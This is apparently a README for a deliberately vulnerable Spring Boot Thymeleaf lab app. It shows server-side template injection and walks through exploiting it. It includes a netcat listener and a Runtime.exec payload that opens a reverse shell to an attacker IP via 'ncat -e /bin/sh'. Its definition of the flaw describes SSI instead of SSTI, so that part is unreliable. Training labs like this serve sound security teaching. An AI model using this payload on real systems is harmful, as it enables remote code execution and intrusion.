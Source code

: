 # Java-Thymeleaf-SSTI


simple spring boot app that contains an example of a SSTI vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

## What is Server Side Template Injection ?

SSIs are directives present on Web applications used to feed an HTML page with dynamic contents. They are similar to CGIs, except that SSIs are used to execute some actions before the current page is loaded or while the page is being visualized. In order to do so, the web server analyzes SSI before supplying the page to the user.

Owasp : https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection


## Setup

You can start the application with one of these methods
1. Go into the src directory and run these commands :
```
1- ./gradlew build

2- ./gradlew bootRun
```

2. Or simply you can go into the docker directory and run following command:
```
docker-compose up -d
```

3. Or directly run it with docker like this:
```
docker run --name ssti -d -p 8080:8080 siyavash/thymeleaf-ssti
```

Now visit [localhost:8080](http://localhost:8080)


## How To Exploit
After visiting [localhost:8080](http://localhost:8080) you must see a page like this:

![homepage.png](homepage.png)

to test SSTI simply type something like ${7*7} in the input and click join. it will be processed on server and you will see the result which is 49

![49.png](49.png)

Because the application is vulnerable to SSTI we try to achive RCE on the machine. to do this follow these steps:

1. Open a terminal and run following netcat command:
```
nc -v -l 9999
```

2. Now we have netcat listening on port 9999 for any incoming connection , we are going to inject or payload
3. Instead of e-mail paste following payload in the input. remember to replace your IP address with the current one
```
(${T(java.lang.Runtime).getRuntime().exec('ncat -e /bin/sh 192.168.0.192 9999')})
```

4. Here is a video getting reverse shell.

https://user-images.githubusercontent.com/9821568/155853142-8e2a37cc-f16e-4419-bedc-74a3c340e905.mp4



## Fix Hint

https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
   
## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 
 https://twitter.com/siavashvafshar
    
## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md

## Sample Report
